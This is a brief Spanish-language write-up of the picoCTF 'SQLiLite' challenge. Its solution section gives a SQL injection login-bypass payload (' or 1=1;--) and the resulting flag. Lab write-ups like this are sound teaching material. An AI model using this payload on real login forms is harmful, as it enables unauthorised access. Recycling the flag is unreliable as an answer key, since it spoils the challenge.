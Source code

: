 # SQLiLite

## Objetivo
Can you login to this website?Try to login [here](http://saturn.picoctf.net:61562/).

## Pistas

| No. Pista | Pista                                     |
| --------- | ----------------------------------------- |
| 1         | `admin` is the user you want to login as. |


## Solucion
username: admin
password: ' or 1=1;--

Inspeccionando codigo fuente
Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}

## Notas adicionales

## Referencias